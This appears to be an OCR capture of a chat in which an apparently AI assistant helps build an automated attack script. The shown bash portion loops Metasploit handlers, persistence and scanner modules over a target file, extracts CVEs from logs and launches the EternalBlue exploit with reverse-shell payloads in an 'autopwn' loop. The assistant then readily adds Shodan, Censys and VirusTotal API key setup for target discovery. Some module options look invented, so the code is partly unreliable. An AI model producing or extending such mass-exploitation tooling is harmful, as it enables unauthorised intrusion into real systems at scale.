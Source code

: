 ```bash
    do
      for auxiliary in "${METASPLOIT_AUXILIARIES[@]}"
      do
        echo "Executing handler: $handler, listener: $listener, persistence: $persistence, auxiliary: $auxiliary"
        msfconsole -q -x "use $handler; set PAYLOAD $METASPLOIT_PAYLOAD; set LHOST <local_ip>; set LPORT <local_port>; set ExitOnSession false; set EnableStageEncoding true; set AutoRunScript multi_console_command -r <listener_script>; exploit -j; use $persistence;
        use $auxiliary; set RHOSTS file:$1; run -j -o $LOGFILE;"

        # get CVEs from logfile
        CVEs=$(cat $LOGFILE | grep -oP 'CVE-\d{4}-\d{4}' | sort -u)

        # iterate over CVEs and run autopwn
        for cve in $CVEs
        do
          echo "Executing autopwn for CVE: $cve"
          msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS file:$1; set LHOST <local_ip>; set PAYLOAD $METASPLOIT_PAYLOAD; set ExitOnSession false; set EnableStageEncoding true; set AutoRunScript multi_console_command -r <listener_script>; set AutoPwn true; set AutoPwnStopOnSession true; set AutoPwnDelay 10; set AutoPwnDepth 3; set AutoPwnThreads 10; set AutoPwnTargets cve:$cve; exploit -j; sleep 10; exit;"
        done
      done
   
   
   Improve with shodan and similars and defone api keys as variables for each required tool
   
   Sure, adding APIs keys as variables can improve the script's flexibility and security. Here's an example of how you can define API keys as variables for Shodan and other tools:

```python
# Define API keys
SHODAN_API_KEY = "your_shodan_api_key"
VIRUSTOTAL_API_KEY = "your_virustotal_api_key"
CENSYS_API_ID = "your_censys_api_id"
CENSYS_API_SECRET = "your_censys_api_secret"

# Initialize Shodan API client
api = shodan.Shodan(SHODAN_API_KEY)

# Initialize VirusTotal API client
vt_client = VirusTotalApi(VIRUSTOTAL_API_KEY)

# Initialize Censys API client
c = censys.ipv4.CensysIPv4(api_id=CENSYS_API_ID, api_secret=CENSYS_API_SECRET)
```

#
You can then use these variables throughout your script instead of hardcoding API keys.

